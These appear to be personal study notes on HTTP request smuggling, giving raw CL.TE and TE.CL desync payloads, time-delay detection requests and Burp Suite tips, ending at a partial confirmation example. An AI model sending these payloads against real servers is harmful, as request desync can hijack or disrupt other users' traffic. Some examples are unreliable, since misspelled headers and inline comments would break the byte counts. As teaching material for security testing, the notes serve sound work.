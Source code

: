 # REQUEST SMUGGLING

[EXAMPLE REPORT](REQUEST%20SMUGGLING%20f9843d63454f4b50bbe6705db530b773/EXAMPLE%20REPORT%20cf91a037a48143ddb3e1fd345a51900f.md)

### **CL . TE**

**The front-end check length and the back-end check the encoding**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Lenght: [X]
Transfer-Encoding: chunked 

0 #End of the chuked request

GPOST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13

pwny=rock
```

In the front-end this is a single request acourding the lenght but in the back-end this is two requests acording the encoding 0 terminating the request in the middle

```
If the request work the response request of the server will be:
"Unrecognized method GPOST"
```

## **TE . CL**

**The front-end check the encoding and the back-end check the length** 

**Is essentialy inverted CL . TE**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 3 #One space + two characters (3F)
Transfer-Encoding: chunked

5c #The number of bytes of the second request in hex number (92=>5c)
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15 #One space +tree characters (x=1) + the end of request (0)

x=1
0 #End of the chuked request
```

You need to count the quantity of bytes in the second request and convert into hex number

In the burp you can select the second request and click on "Convert to chunked" and cautomaticaly will put the hexadecimal length and the 0 end request.

And add the header methods clicking in the first request and in "change the request method"

# **Identify With Time Delay**

## **CL . TE**

```bash
CL . TE
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

- The **front-end** will pass by one request on legth: **1 space + 2 chars + 1 number = 4 bytes**
- The **back-end** will not terminate the chunk and will whait for the next it cause a time delay

## **TE . CL**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

- The **front-end** will recieve part of the chuked request
- The **back-end** will expected **6 bytes** on the resquest (more than the sended) and will **whait the rest of the bytes** and it cause a time delay

**ALERT: The timing-based test fot TE. CL vulnerabilities disturb** the application for other users **use this test only if the CL. TE not work**

## **Confirming HTTP Smuggling**

An attack request want to interfere in the next request

But you can confirm this wihout circumvent the legal laws checking the responde of your request

**A Normal Request:**

```bash
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```